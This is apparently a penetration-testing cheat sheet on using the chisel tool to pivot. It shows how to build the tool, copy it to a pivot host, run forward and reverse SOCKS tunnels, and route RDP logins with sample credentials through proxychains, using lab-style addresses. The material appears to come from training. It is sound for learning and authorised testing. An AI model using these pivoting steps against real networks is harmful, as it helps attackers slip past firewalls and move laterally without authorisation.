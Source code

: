 -- -
Tool written in Go that you can use to create a tunnel via SSH to forward your traffic through.
### Install
```bash
# on attack host
# Make sure Golang is installed on your system
git clone https://github.com/jpillora/chisel.git
cd chisel
go build
```
### Transfer binary
```bash
# scp chisel binary from attack host to pivot host
scp chisel ubuntu@10.129.202.64:~/
```
### Run Server
```bash
# on pivot host
./chisel server -v -p 1234 --socks5
```
### Run Client
```bash
# on attack host
./chisel client -v <pivot host ip>:<server port> socks
./chisel client -v 10.129.202.64:1234 socks
```
### Config proxychains
```bash
# on attack host
# note: in the client command above, it will output the port the client is listening on, for our example it output 1080 as the local listener port
sudo vim /etc/proxychains.conf

# in /etc/proxychains.conf:
socks5 127.0.0.1 1080
```
### Forward traffic via proxychains
```bash
# run whatever you want to run via proxychains
# may or may not need sudo
proxychains xfreerdp /v:172.16.5.19 /v:victor /p:pass@123
```
### Reverse Pivot 
Use this method when restricted by a firewall with limited inbound traffic allowed. 
```bash
# Start server on pivot host
sudo ./chisel server --reverse -v -p 1234 --socks5

# start client on attack host
./chisel client -v 10.10.14.17:1234 R:socks

# edit proxychains file
sudo vim /etc/proxychains.conf

# input into proxychains config file
socks5 127.0.0.1 1080

# funnel commands through proxychains
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```